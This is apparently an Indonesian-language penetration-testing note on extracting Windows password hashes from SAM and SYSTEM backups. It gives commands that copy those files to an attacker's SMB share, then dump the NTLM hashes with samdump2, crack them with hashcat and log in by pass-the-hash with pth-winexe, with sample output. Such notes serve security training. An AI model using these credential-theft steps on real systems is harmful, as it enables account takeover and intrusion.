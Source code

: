 ### SAM
Windows menyimpan password hash dari semua user pada Security Account Manager (SAM). Hash yang disimpan terenkripsi dengan key yang disimpan ada file dengan nama `SYSTEM`. Jika kita memiliki hak akses untuk membaca file `SAM` dan `SYSTEM`, maka kita bisa extract hash lalu dump dengan menggunakaan SAMDUMP2

File `SAM` dan `SYSTEM` tersimpan di `C:\Windows\System32\config`, namun file-file ini terkunci ketika windows sedang berjalan. 

Kita bisa mencari apakah terdapat backup dari file-file ini pada direktori `C:\Windows\Repair` atau `C:\Windows\System32\config\RegBack`
#### Recon
```
winPEASany.exe quiet cmd searchfast filesinfo
```
Hasilnya
```
[+] Looking for common SAM & SYSTEM backups()
    C:\Windows\repair\SAM
    C:\Windows\repair\SYSTEM
```
Copy file ini ke Kali Linux, jika SMB tersedia, gunakan perintah :
```
copy C:\Windows\repair\SAM \\192.168.1.8\tools\
copy C:\Windows\repair\SYSTEM \\192.168.1.8\tools\
```

Lalu kita dump username dan hash menggunakan samdump2
```
samdump2 SYSTEM SAM
```
Hasilnya :
```
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MRDoel:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Crack hash NTLM menggunakan hashcat, target `admin:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
Command :
```
hashcat -m 1000 --force 31d6cfe0d16ae931b73c59d7e0c089c0 /usr/share/wordlists/rockyou.txt
```

Terkadang windows juga menerima login dengan hash, jadi kita gak perlu tau passwordnya. Kita bisa menggunakan tools `pth-winexe` untuk login, contohnya
```
pth-winexe -U 'admin@aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' //192.168.1.7 cmd.exe
```
